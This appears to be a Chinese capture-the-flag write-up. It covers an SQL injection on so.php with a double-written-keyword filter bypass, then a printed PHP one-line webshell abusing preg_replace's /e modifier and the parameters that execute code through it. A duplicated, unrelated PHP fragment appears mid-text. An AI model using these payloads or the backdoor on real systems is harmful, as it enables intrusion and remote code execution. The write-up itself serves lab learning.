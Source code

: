 ### 尝试对 so.php 进行 sql 注入

将 User-Angent 改为 Xlcteam Browser，提交参数 soid 开始注入。

查询语句为 `SELECT * FROM `message` WHERE display=1 AND id=$id`

id 没有包裹引号，过滤规则双写即可绕过，因为是按顺序进行替换敏感词，因此在语句中插入 ‘=’ 也可

构造 `soid=1/**/aandnd/**/0/**/uniunionon/**/seselectlect/**/1,2,3,4` 回显为 2，3。
根据 admin 表结构一通注入 ，得到

`  admin   102 117 99 107 114 117 110 116 117`

密码转换出来后即可进入后台,提示有一个小马，使用 about.php 获取小马内容

```php
<?php $e = $_REQUEST['www'];
$arr = array($_POST['wtf'] => '|.*|e',);
array_walk($arr, $e, ''); ?>
```

        //因为太菜，很懒，所以。。。(过滤规则来自Mramydnei) $re=$url[2]; if(count($url)==0){ return htmlspecialchars($content); }else{ for($i=0;$i<=count($key);$i++){ $re=str_replace($key[$i], '_',$re); } return htmlspecialchars($url[1],ENT_QUOTES).'<a href="'.$re.'">'.$re.'</a>'.htmlspecialchars($url[3],ENT_QUOTES); } }
        //因为太菜，很懒，所以。。。(过滤规则来自Mramydnei) $re=$url[2]; if(count($url)==0){ return htmlspecialchars($content); }else{ for($i=0;$i<=count($key);$i++){ $re=str_replace($key[$i], '_',$re); } return htmlspecialchars($url[1],ENT_QUOTES).'<a href="'.$re.'">'.$re.'</a>'.htmlspecialchars($url[3],ENT_QUOTES); } }

> 数组的 value 中是|.\*|e，这里用到了正则匹配的 preg_replace()的一个漏洞：
>
> 参考 https://www.jb51.net/article/38714.htm
>
> 简单来说就是正则中/e(这里和|e 效果一样) 修正符使 preg_replace() 将 replacement 参数当作 PHP 代码（在适当的逆向引用替换完之后）。提示：要确保 replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错误。
> 所以我们可以传递 preg_replace 给 www，这样 array 中的值就是第一个参数，键就是第二个参数，正好可以利用 preg_replace 的漏洞，然后会执行$\_POST[‘wtf’]，就相当于一个一句话马了。

url 里加入参数 www=preg_replace ,post 参数 wtf=print_r(scandir(.)) 列出目录，flag 所在文件名为 '恭喜你获得 flag2.txt' , 利用 about.php 读取即可。
